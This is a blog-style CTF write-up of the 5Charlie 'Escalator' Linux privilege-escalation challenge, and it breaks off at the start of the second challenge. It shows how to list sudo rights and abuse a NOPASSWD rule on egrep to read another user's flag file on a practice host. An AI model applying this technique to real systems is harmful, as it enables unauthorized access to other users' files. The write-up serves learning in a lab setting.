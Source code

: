 ```yaml
---
title: "5Charlie CTF - Escalator"
date: 2020-06-26 17:00:00 -0500
categories:
  - write-up
tags:
  - ctf
  - write-up
  - linux
  - hacking
  - privesc
---
```


A write-up of the "Escalator" privelege escalation challenge set from 5Charlie CTF.

## Escalator 1

### Escalator 1 - Challenge

To access these challenges, ssh to chosen@analysis.5charlie.com using the attached private key.

What is reah's flag?

**Attachments:** `id_chosen` - SSH Key

### Escalator 1 - Solution

As an entry point to the challenge, we're probably looking for some low-hanging fruit.
We can check what privileges users are given by the `sudo` utility by using the command:

{% highlight bash %}
sudo -l
{% endhighlight %}

``` text
User chosen may run the following commands on e9b5bb17d8a0:
    (reah) NOPASSWD: /bin/egrep
```

Examining the output, we can determine that we're allowed to run the `egrep` command as the user `reah` without specifying a pasword (`NOPASSWD`).
When running the command, make sure you use the absolute path.

{% highlight bash %}
chosen@e9b5bb17d8a0:/$ sudo -u reah /bin/egrep '*' /home/reah/flag.txt
{% endhighlight %}

**Flag:** `flag{curiosity_kindled}`

## Escalator 2

### Escalator 2 - Challenge
